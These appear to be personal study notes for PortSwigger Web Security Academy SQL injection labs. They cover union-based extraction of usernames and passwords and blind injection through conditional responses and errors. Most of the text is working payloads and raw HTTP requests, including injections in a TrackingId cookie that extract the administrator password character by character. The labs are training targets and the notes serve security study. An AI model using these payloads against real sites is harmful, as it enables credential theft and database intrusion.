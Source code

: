 ### Lab 10: [Retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Goal: Retrieve usernames, and passwords from the table users

```sql
category='' or true -- 
category='' order by 2 -- 
  ctr+u on burp => ''+order+by+2+--+
union select null,null --
union select 'a','a' -- # internal server error
union select null,'a' -- 
```
```http
GET /filter?category='+union+select+null,version()+--+ HTTP/2
```
Database: `PortsgreSQL`
```sql
union SELECT null,table_name,null FROM information_schema.tables -- 
union SELECT null,column_name FROM information_schema.columns WHERE table_name = 'users' -- 
  -- columns: username, password
union select null,username || ':' || password from users -- 
```
```http
GET /filter?category='+union+select+null,username+||+'%3a'+||+password+from+users+--+ HTTP/2
```

## Lab 11+ Blind SQLi:
### Lab 11 and 12: Conditional responses
```http
GET / HTTP/2
Host: 0acf00c104323a12812e5dd7009b0042.web-security-academy.net
Cookie: TrackingId=Vvm2xFZ53GEYJkxY'+OR+TRUE+--+; session=rmPgXv6aTAGbG8ulFKTIQN5rwr63Ijag
```
How?:
```sql
AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
'-- So:
AND+SUBSTRING((SELECT+version()),1,1)%3d'P
' -- So, the first character is equal to P
```

Lab 12 conditional errors:
```http
GET / HTTP/2
Host: 0ab500cb0489a6cf8493360a00d200ff.web-security-academy.net
Cookie: TrackingId=bRjjz0cQGsBtNJyf'||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)||'; session=2Ry62swje0F1fzOP9fx7BUL2Y36iq21O
```
```sql
||(SELECT+CASE+WHEN+(1%3d2)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)|| -- (1=2) worked but False did not.
So:
select+case+when+substr((select+password+from+users+where+username+%3d+'administrator'),1,1)+>+'0'+then+''+else+to_char(1/0)+end+from+dual)
--Better:
'||(SELECT CASE WHEN SUBSTR(password,1,1)>'z' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Length:
'||(select case when (length(password))=1 then '' else to_char(1/0) end from users where username='administrator')||'
Represented as:
||(select+case+when+(length(password))>1+then+''+else+to_char(1/0)+end+from+users+where+username%3d'administrator')||
```